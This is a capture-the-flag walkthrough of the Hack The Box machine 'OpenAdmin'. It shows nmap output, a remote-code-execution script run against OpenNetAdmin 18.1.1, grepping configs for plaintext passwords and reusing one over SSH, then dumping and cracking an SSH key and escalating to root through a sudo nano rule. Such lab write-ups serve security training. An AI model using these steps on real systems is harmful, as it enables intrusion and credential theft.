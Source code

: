 # OpenAdmin walkthroughs

Machine ip: 10.10.10.171

Running ```nmap ``` gave this output:

```console
root@kali:~# nmap -sV -T4 -sC 10.10.10.171
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-14 23:36 EST
Nmap scan report for 10.10.10.171
Host is up (0.0094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User

We are going to enumerate with Dirbuster, to visualize different paths, which may contain
vulnerabilities, using the medium wordlist

Connecting instead to 10.10.10.171/ona, we have a web app called OpenNetAdmin, version
18.1.1. Googling opennetadmin 18.1.1 shows it's vulnrable to RCE, I also find the exploit code (located in RCE.sh).

Running:

```console
root@kali: ~./RCE.sh http://10.10.10.171/ona/
```

Gives me a shell:

```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

So, we managed to get the www-data user shell, and now we can browse inside to find out more.
The database configuration file shows a plaintext password.

Grep to loot for passwords in apache config files:
```console
$ grep -nr 'pass' .
Found a couple passwords:
../../ona/www/local/config/database_settings.inc.php:13:        'db_passwd' => n1nj4W4rri0R!',
./include/adodb5/drivers/adodb-postgres64.inc.php:757:  //      $db->PConnect("host=host1 user=user1 password=secret port=4341");
./include/adodb5/datadict/datadict-oci8.inc.php:111:            $password = isset($options['PASSWORD']) ? $options['PASSWORD'] : 'tiger';
```

I then try to login using the above passwords to the two user accounts on the machine. 'n1nj4W4rri0R!' Worked for Jimmy through ssh

I used LinEnum. Looking through, I see apache and a curious file I wasn't able to see before at:

> /var/www/internal/main.php

The contents are:

```php
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
```
Hmm, I can't execute the .php file or access joanna's home directory - what can I do?

I see on the LinEnum report it's listening at port 52846, so cURLing localhost:52846 dumps Joanna's SSH key!

Now it's time to ask John to crack the password:

> bloodninjas

SSH into joanna's account and grab the user flag

## Root

Check what Joanna can run without supplying a password:
```console
joanna@openadmin:~$ sudo -l
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Joanna can use nano, so running:

```console
joanna@openadmin:~$ sudo -u root nano /opt/priv
```

Gives me nano as root, CTRL-R + CTRL-X allows me to execute whatever I like with my new found privileges!

[In Nano]
```console
Command to execute: id

uid=0(root) gid=0(root) groups=0(root)

Command to execute: cat /root/root.txt
```
